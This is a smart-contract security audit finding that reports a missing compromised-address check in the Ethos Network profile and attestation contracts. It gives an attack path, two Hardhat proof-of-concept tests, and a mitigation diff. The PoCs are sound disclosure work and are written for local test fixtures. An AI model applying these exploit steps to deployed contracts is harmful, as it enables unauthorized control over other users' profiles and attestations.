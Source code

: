 Virtual Boysenberry Swan

High

# Compromised address can do unauthorized actions

### Summary

In `EthosProfile` users can register their addresses and if they are compromised, they can remove them from the system and mark them as compromised.

[`EthosProfile::deleteAddressAtIndex`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415), [`EthosProfile::archiveProfile`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L330), [`EthosProfile::restoreProfile`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L349), [`EthosAttestation:archiveAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L334), [`EthosAttestation:inviteAddress`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L208), [`EthosAttestation:uninviteUser`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L248) functions do not validate whether the `msg.sender` is a compromised address. 

This leads to a situation where a compromised address can remove addresses, archive profile, restore the profile, archive attestations, invite address and uninvite user

### Root Cause

Inadequate validation inside [`EthosProfile::deleteAddressAtIndex`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415), [`EthosProfile::archiveProfile`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L330), [`EthosProfile::restoreProfile`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L349), [`EthosAttestation:archiveAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L334), [`EthosAttestation:inviteAddress`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L208), [`EthosAttestation:uninviteUser`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L248)

### Internal pre-conditions

1. User should have registerred additional address
2. That address should be marked as compromised

### External pre-conditions

_No response_

### Attack Path

First: 
1. Bob creates attestation for his profile
2. Bob registers address A
3. Address A got compromised by Alice
4. Alice calls [`EthosAttestation:archiveAttestation`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosAttestation.sol#L334) to archive his attestation

Second:
1. Bob registers address A
2. Bob registers address B
3. Bob's address B gets compromised
4. A malicious user that has access to address B calls [`EthosProfile::deleteAddressAtIndex`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L415) twice and deletes address A and the main address of the profile
5. A malicious user calls the [`EthosProfile::archiveProfile`](https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L330)

### Impact

Compromised addresses can do unauthorized actions: remove addresses, archive profile, restore the profile, archive attestations, invite address and uninvite user

### PoC

Place the following describe block in `EthosProfile.test.ts`

```javascript
describe('POCs', () => {
   it.only('should delete all profile addresses and archive profile', async () => {
      const {
        ethosProfile,
        PROFILE_CREATOR_0,
        EXPECTED_SIGNER,
        OTHER_0,
        OTHER_1,
        OWNER,
      } = await loadFixture(deployFixture);

      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);

      /* Register second address */
      const profileId = String(2);
      let rand = '123';
      let signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER
      );
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);

      /* Register third address */
      rand = '456';
      signature = await common.signatureForRegisterAddress(
        OTHER_1.address,
        profileId,
        rand,
        EXPECTED_SIGNER
      );
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_1.address, profileId, rand, signature);

      /* Verifies that the addresses are 3 */
      let addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(3, 'should be 3 addresses');

      /* User delete the OTHER_1.address and marks it as compromised */
      await ethosProfile.connect(PROFILE_CREATOR_0).deleteAddressAtIndex(2);

      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(2, 'should be 2 addresses');
      expect(addresses[0]).to.be.equal(
        PROFILE_CREATOR_0.address,
        'wrong address[0]'
      );
      expect(addresses[1]).to.be.equal(OTHER_0.address, 'wrong address[1]');

      /* The compromised OTHER_1 address deletes non-compromised address at index 1 */
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(1);

      /* The compromised OTHER_1 is able to delete my main address */
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(0);

      /* Verifies that the addresses are 0 */
      addresses = await ethosProfile.addressesForProfile(2);
      expect(addresses.length).to.be.equal(0, 'should have 0 addresses');

      /* Archive the profile */
      await expect(ethosProfile.connect(OTHER_1).archiveProfile()).to.emit(
       ethosProfile,
       'ProfileArchived',
      );
      expect((await ethosProfile.getProfile(2)).archived).to.be.equal(true, 'should be true after');
    });
});
```

And for theattestations this test inside `EthosAttestation.test.ts`:

```javascript
describe('POC', () => {
  it.only('should archive attestation with compromised address', async () => {
      const {
        OWNER,
        ethosProfile,
        ethosAttestation,
        SERVICE_X,
        ACCOUNT_NAME_BEN,
        ATTESTATION_EVIDENCE_0,
        EXPECTED_SIGNER,
        OTHER_0,
        OTHER_1,
      } = await loadFixture(deployFixture);

      const randValue = '123';

      await ethosProfile.connect(OWNER).inviteAddress(OTHER_0.address);
      await ethosProfile.connect(OTHER_0).createProfile(1);
      const other0profileId = String(
        await ethosProfile.profileIdByAddress(OTHER_0.address)
      );

      /* Create an attestation */
      let signature = await common.signatureForCreateAttestation(
        other0profileId,
        randValue,
        ACCOUNT_NAME_BEN,
        SERVICE_X,
        ATTESTATION_EVIDENCE_0,
        EXPECTED_SIGNER
      );
      await ethosAttestation
        .connect(OTHER_0)
        .createAttestation(
          other0profileId,
          randValue,
          { account: ACCOUNT_NAME_BEN, service: SERVICE_X },
          ATTESTATION_EVIDENCE_0,
          signature
        );

      /* Register second address */
      signature = await common.signatureForRegisterAddress(
        OTHER_1.address,
        other0profileId,
        randValue,
        EXPECTED_SIGNER
      );
      await
        ethosProfile
          .connect(OTHER_0)
          .registerAddress(OTHER_1.address, other0profileId, randValue, signature)

      /* Mark the main address as compromised */
      await ethosProfile.connect(OTHER_1).deleteAddressAtIndex(0);
      expect(
        await ethosProfile.isAddressCompromised(OTHER_0.address)
      ).to.be.equal(true, 'Address should be compromised');

      /* Archive the attestation with the compromised address */
      const attestationHash = await ethosAttestation.getServiceAndAccountHash(
        SERVICE_X,
        ACCOUNT_NAME_BEN
      );
      await ethosAttestation.connect(OTHER_0).archiveAttestation(attestationHash);

      /* Verify that the attestation is archived */
      const attestation = await ethosAttestation.attestationByHash(
        attestationHash
      );
      expect(attestation.archived).to.be.equal(true, 'Wrong archived');
    });
});
```

### Mitigation

Add a check whether the `msg.sender` is compromised:

```diff
function deleteAddressAtIndex(uint256 addressIndex) external whenNotPaused {
++  checkIsAddressCompromised(msg.sender);
...
}
```
and in `EthosProfile::archiveProfile`, `EthosProfile::restoreProfile`, `EthosProfile::inviteAddress`, `EthosProfile::uninviteUser`

and in `EthosAttestation::archiveAttestation`, `EthosAttestation::restoreAttestation` also check for the compromised address
  
    
